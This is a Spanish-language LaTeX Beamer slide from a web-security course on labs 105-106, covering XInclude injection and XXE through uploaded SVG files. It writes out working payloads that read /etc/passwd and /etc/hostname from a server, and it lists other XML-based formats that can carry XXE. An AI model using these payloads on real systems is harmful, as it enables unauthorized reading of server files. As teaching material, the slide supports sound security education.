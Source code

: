 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XInclude y XXE vía File Upload (Labs 105-106)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Lab 105 --- XInclude cuando no puedes controlar el DOCTYPE
  \item Algunos servidores construyen el XML internamente $\rightarrow$ no puedes inyectar \textless{}!DOCTYPE\textgreater{}.
  \item XInclude es parte del estándar XML y puede usarse en el contenido del documento.
  \item \cmd{\textless{}foo xmlns:xi='http://www.w3.org/2001/XInclude'\textgreater{}}
  \item \cmd{\textless{}xi:include parse='text' href='file:///etc/passwd'/\textgreater{}}
  \item \cmd{\textless{}/foo\textgreater{}}
  \item $\rightarrow$ Solo necesitas controlar un nodo que se inserta en el XML del servidor.
  \item $\rightarrow$ parse='text' lo incluye como texto plano (no como XML $\rightarrow$ evita errores).
  \item Lab 106 --- XXE vía subida de imagen SVG/XML maliciosa
  \item Aplicaciones que procesan imágenes SVG usan un parser XML $\rightarrow$ vulnerable a XXE.
  \item Subir un SVG con payload XXE $\rightarrow$ el servidor lo parsea al procesarlo o renderizarlo.
  \item \cmd{\textless{}?xml version='1.0' standalone='yes'?\textgreater{}}
  \item \cmd{\textless{}!DOCTYPE test [\textless{}!ENTITY xxe SYSTEM 'file:///etc/hostname'\textgreater{}]\textgreater{}}
  \item \cmd{\textless{}svg xmlns='http://www.w3.org/2000/svg'\textgreater{}}
  \item \cmd{\textless{}text font-size='16' x='0' y='16'\textgreater{}\&xxe;\textless{}/text\textgreater{}}
  \item \cmd{\textless{}/svg\textgreater{}}
  \item $\rightarrow$ /etc/hostname aparece renderizado en la imagen SVG devuelta.
  \item Otros formatos XML que pueden ser vectores XXE
  \item DOCX / XLSX / PPTX $\rightarrow$ ZIPs con XML interno (word/document.xml, xl/workbook.xml\dots{})
  \item SOAP requests $\cdot$ RSS/Atom feeds $\cdot$ PDF con metadata XML $\cdot$ OpenDocument (ODT)
  \item Cualquier endpoint que acepte y parsee XML (incluyendo ficheros) puede ser vulnerable.
  \end{itemize}
\end{frame}
\end{document}
